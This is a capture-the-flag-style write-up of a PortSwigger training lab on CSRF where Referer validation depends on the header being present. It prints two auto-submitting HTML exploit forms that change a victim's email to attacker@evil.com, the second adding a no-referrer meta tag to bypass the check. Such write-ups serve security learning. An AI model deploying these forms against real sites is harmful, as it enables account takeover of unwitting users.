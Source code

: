 # CSRF where Referer validation depends on header being present

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present), you'll learn: CSRF where Referer validation depends on header being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215045943.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050007.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050014.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect the HTML form in the update email:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**In here, we didn't see a CSRF token!**

**Now, we use the `exploit server` to test CSRF attack!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050513.png)

**Then, we can craft a HTML form that performs CSRF attack to the victim:**
```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's test it via the `View exploit` button!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050745.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215050759.png)

Wait... `Invalid referer header`??

**Hmm... Since the `Referer` HTTP header can be fully controlled by the attacker, we can basically bypass this check!**

**According to [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy), we can use the `<meta>` tag to ignore `Referer` HTTP header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051342.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051352.png)

**To bypass that, I'll add a new `<meta>` tag to ignore `Referer` header:**
```html
<html>
    <head>
	    <meta name="referrer" content="no-referrer">
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051517.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020221215051523.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF where Referer validation depends on header being present